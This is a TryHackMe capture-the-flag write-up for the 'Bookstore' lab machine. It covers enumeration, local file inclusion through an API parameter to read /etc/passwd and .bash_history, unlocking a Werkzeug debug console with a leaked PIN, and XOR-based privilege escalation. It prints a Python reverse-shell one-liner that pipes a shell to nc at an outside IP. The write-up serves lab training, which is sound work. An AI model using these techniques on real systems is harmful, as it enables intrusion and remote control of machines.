 # Bookstore TryHackMe Writeup
## Level: Medium
## OS: Linux

![logo](logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](1.png)

## Enumeration
We list two web services on port 80 of this website:

![](2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](8.png)

And at port 5000:

![](3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](4.png)

We test the API and see that it works correctly from Burp.

![](5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](9.png)

#### API V1

![](10.png)

If we access from the browser, we see that we can embed files (LFI).

![](11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](13.png)

We use the PIN and now we have access to the interactive console.

![](14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](15.png)

### Reverse shell

![](16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](22.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
